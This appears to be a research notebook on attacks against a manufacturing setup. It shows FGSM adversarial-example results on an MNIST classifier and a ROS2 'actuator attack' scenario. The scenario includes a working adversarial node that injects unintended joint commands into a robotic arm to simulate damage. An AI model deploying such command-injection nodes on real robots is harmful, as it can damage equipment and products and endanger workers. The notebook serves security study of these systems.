/home/abm/AI_Model/inference_attack.py:44: FutureWarning: You are using `torch.load` with `weights_only=False` (the current default value), which uses the default pickle module implicitly. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling (See https://github.com/pytorch/pytorch/blob/main/SECURITY.md#untrusted-models for more details). In a future release, the default value for `weights_only` will be flipped to `True`. This limits the functions that could be executed during unpickling. Arbitrary objects will no longer be allowed to be loaded via this mode unless they are explicitly allowlisted by the user via `torch.serialization.add_safe_globals`. We recommend you start setting `weights_only=True` for any use case where you don't have full control of the loaded file. Please open an issue on GitHub for any issues related to this experimental feature.
  model.load_state_dict(torch.load(model_path))
Loaded model for inference.

Running inference without attack...
[W1114 17:42:24.251843964 NNPACK.cpp:61] Could not initialize NNPACK! Reason: Unsupported hardware.
Final Results - Overall Accuracy: 99.10%, Average Inference Time: 0.000265 seconds

Running inference with attack...
Final Results - Overall Accuracy: 97.80%, Average Inference Time: 0.000248 seconds
Poisoned Sample Accuracy: 76.00%

Inference with and without attack completed.

Comparison between Without Attack and With Attack:

Without Attack - Overall Accuracy: 99.10%, Average Inference Time: 0.000265 seconds
With Attack    - Overall Accuracy: 97.80%, Average Inference Time: 0.000248 seconds
Poisoned Sample Accuracy (With Attack): 76.00%


## Confusion Metrics

In [2]:
from IPython.display import Image, display, HTML

# Define paths to your images
img_path_1 = './AI_Model/inference_results/without_attack/confusion_matrix.png'
img_path_2 = './AI_Model/inference_results/with_attack/confusion_matrix.png'

# Define HTML code to display images side by side with headings
html_code = f"""
<table>
    <tr>
        <th>Without Attack</th>
        <th>With Attack</th>
    </tr>
    <tr>
        <td><img src="{img_path_1}" width="700"></td>
        <td><img src="{img_path_2}" width="700"></td>
    </tr>
</table>
"""

# Display the images with headings
display(HTML(html_code))


Without Attack,With Attack
,


## Summary of Threat Model, Attack Scenario, and Simulation

### Threat Model
The threat model for this simulation involves an **adversarial attacker** targeting a machine learning system deployed to classify handwritten digits from the MNIST dataset. The attacker’s goal is to subtly alter a subset of the input data during inference to cause the model to misclassify certain samples. This scenario simulates a case where an attacker has access to the data pipeline or can inject adversarial noise into data samples processed by the model, leading to degraded model accuracy and reliability.

### Attack Scenario
The attack scenario leverages the **Fast Gradient Sign Method (FGSM)** to create adversarially perturbed (poisoned) samples. This attack method involves calculating the gradient of the model’s loss with respect to the input image and modifying the image slightly in the direction that maximizes the loss. This small, targeted perturbation is designed to be imperceptible to humans but significant enough to mislead the model into incorrect classifications. In this simulation:

- The attacker targets **50 randomly chosen samples** out of 1000, introducing adversarial perturbations to these specific samples only.
- The attack uses an **epsilon** value of `0.3`, determining the strength of perturbation applied to each poisoned sample.

### Simulation and Evaluation
The simulation evaluates the model's inference performance under two conditions:

1. **Without Attack**: The model performs 1000 inferences on unaltered test samples, establishing baseline metrics for accuracy and inference time.
2. **With Attack**: The model performs 1000 inferences, but 50 samples are poisoned using the FGSM attack. The metrics are then recalculated to assess the effect of the adversarial perturbations.

After running both scenarios, the following metrics are saved and compared:

- **Overall Accuracy**: Accuracy across all 1000 samples in both scenarios.
- **Poisoned Sample Accuracy**: Accuracy on the 50 poisoned samples only, providing insight into the effectiveness of the attack.
- **Average Inference Time**: Average time taken for each inference, allowing for comparisons in computational cost between the two scenarios.

This approach demonstrates how adversarial attacks can impact model performance and provides a framework for measuring the robustness of machine learning models against adversarial perturbations.


## Summary of Threat Model, Attack Scenario, and Simulation

### Threat Model
The threat model for this simulation involves an **adversarial attacker** targeting a machine learning system deployed to classify handwritten digits from the MNIST dataset. The attacker’s goal is to subtly alter a subset of the input data during inference to cause the model to misclassify certain samples. This scenario simulates a case where an attacker has access to the data pipeline or can inject adversarial noise into data samples processed by the model, leading to degraded model accuracy and reliability.

### Attack Scenario
The attack scenario leverages the **Fast Gradient Sign Method (FGSM)** to create adversarially perturbed (poisoned) samples. This attack method involves calculating the gradient of the model’s loss with respect to the input image and modifying the image slightly in the direction that maximizes the loss. This small, targeted perturbation is designed to be imperceptible to humans but significant enough to mislead the model into incorrect classifications. In this simulation:

- The attacker targets **50 randomly chosen samples** out of 1000, introducing adversarial perturbations to these specific samples only.
- The attack uses an **epsilon** value of `0.3`, determining the strength of perturbation applied to each poisoned sample.

### Simulation and Evaluation
The simulation evaluates the model's inference performance under two conditions:

1. **Without Attack**: The model performs 1000 inferences on unaltered test samples, establishing baseline metrics for accuracy and inference time.
2. **With Attack**: The model performs 1000 inferences, but 50 samples are poisoned using the FGSM attack. The metrics are then recalculated to assess the effect of the adversarial perturbations.

After running both scenarios, the following metrics are saved and compared:

- **Overall Accuracy**: Accuracy across all 1000 samples in both scenarios.
- **Poisoned Sample Accuracy**: Accuracy on the 50 poisoned samples only, providing insight into the effectiveness of the attack.
- **Average Inference Time**: Average time taken for each inference, allowing for comparisons in computational cost between the two scenarios.

This approach demonstrates how adversarial attacks can impact model performance and provides a framework for measuring the robustness of machine learning models against adversarial perturbations.


---


#### Lets start with Scenario 2.2: Actuator Attack - Command Injection via ROS2 Node or Script Modification Causing Inaccurate Defect Correction

We need to modify the motion1.py script first to simulate this attack.

1. **Robotic Arm’s Normal Operation:**
    The robot performs the pick, pour, and place tasks when a defect is detected, as signaled by the AI-driven model. This occurs once per detection.
    We modify __motion1.py__ so that it runs the pick, pour, and place tasks only once after receiving a signal.

2. **Adversarial Attack Simulation:**
    - An adversarial node (or a modification in motion1.py) could alter the end-effector coordinates during the pick, pour, and place tasks, leading to inaccurate defect correction. Alternatively, an extra step could be added at the end of these tasks, simulating an unintended motion that might cause physical damage (like scratching a surface).
    - This extra motion simulates an actuator attack by adding unexpected actions, impacting product quality over time and increasing organizational costs due to misaligned corrections.




**Modification in motion1.py for Defect-Triggered Operation**

Here's an updated motion1.py version to perform the pick, pour, and place tasks only once upon defect detection:
The new file name is motion2.py

In [ ]:
#!/usr/bin/env python3
import sys
import time
import rclpy
from rclpy.node import Node
from std_msgs.msg import Bool  # Assuming the AI model publishes a Boolean for defect detection
from interbotix_xs_modules.xs_robot.arm import InterbotixManipulatorXS
import numpy as np

class DefectCorrectionNode(Node):
    def __init__(self):
        super().__init__('defect_correction_node')
        # Robot initialization
        self.bot = InterbotixManipulatorXS(
            robot_model='px150',
            group_name='arm',
            gripper_name='gripper'
        )
        # Subscribe to defect detection signal
        self.subscription = self.create_subscription(
            Bool,
            '/defect_detected',  # Topic that receives defect detection notifications
            self.perform_defect_correction,
            10
        )
        self.subscription  # to avoid unused variable warning

    def perform_defect_correction(self, msg):
        if msg.data:  # If defect detected
            self.get_logger().info("Defect detected! Starting correction task.")
            self.bot.arm.set_ee_pose_components(x=0.3, z=0.2)
            self.bot.arm.set_single_joint_position(joint_name='waist', position=np.pi / 2.0)
            self.bot.gripper.release()
            self.bot.arm.set_ee_cartesian_trajectory(x=0.1, z=-0.16)
            self.bot.gripper.grasp()
            self.bot.arm.set_ee_cartesian_trajectory(x=-0.1, z=0.16)
            self.bot.arm.set_single_joint_position(joint_name='waist', position=-np.pi / 2.0)
            self.bot.arm.set_ee_cartesian_trajectory(pitch=1.5)
            self.bot.arm.set_ee_cartesian_trajectory(pitch=-1.5)
            self.bot.arm.set_single_joint_position(joint_name='waist', position=np.pi / 2.0)
            self.bot.arm.set_ee_cartesian_trajectory(x=0.1, z=-0.16)
            self.bot.gripper.release()
            self.bot.arm.set_ee_cartesian_trajectory(x=-0.1, z=0.16)
            self.get_logger().info("Defect correction task completed.")
            # Go to a resting position if desired (optional)
            # self.bot.arm.go_to_home_pose()

def main(args=None):
    rclpy.init(args=args)
    defect_correction_node = DefectCorrectionNode()
    rclpy.spin(defect_correction_node)
    defect_correction_node.destroy_node()
    rclpy.shutdown()

if __name__ == '__main__':
    main()


#### Adversarial Node to Alter Coordinates or Add Unwanted Movements

Now, let’s create an adversarial ROS2 node to simulate an actuator attack by adding unintended movements or altering coordinates after each defect correction task.

In [ ]:
#!/usr/bin/env python3
import rclpy
from rclpy.node import Node
from interbotix_xs_msgs.msg import JointSingleCommand
import time

class AdversarialActuatorNode(Node):
    def __init__(self):
        super().__init__('adversarial_actuator_node')
        # Publisher to send commands to an individual joint
        self.publisher_ = self.create_publisher(JointSingleCommand, '/wx250s/commands/joint_single', 10)
        # Timer to activate unwanted movement after defect correction
        self.timer = self.create_timer(3.0, self.add_unwanted_movement)

    def add_unwanted_movement(self):
        # Create an altered JointSingleCommand message to simulate a slight "scratch" or offset
        msg = JointSingleCommand()
        msg.name = 'waist'  # Modify the waist joint as an example
        msg.cmd = 0.1  # A small unintended movement
        self.publisher_.publish(msg)
        self.get_logger().info("Adversarial movement applied to the waist joint, simulating an actuator attack.")

def main(args=None):
    rclpy.init(args=args)
    adversarial_actuator_node = AdversarialActuatorNode()
    rclpy.spin(adversarial_actuator_node)
    adversarial_actuator_node.destroy_node()
    rclpy.shutdown()

if __name__ == '__main__':
    main()


- Explanation
    - **DefectCorrectionNode:** This node performs defect correction once when it receives a signal on the /defect_detected topic.
    - **AdversarialActuatorNode:** This adversarial node publishes a slight offset to the waist joint, simulating an actuator attack. This added movement could simulate scratches or other inaccuracies in quality control over time, resulting in increased operational costs.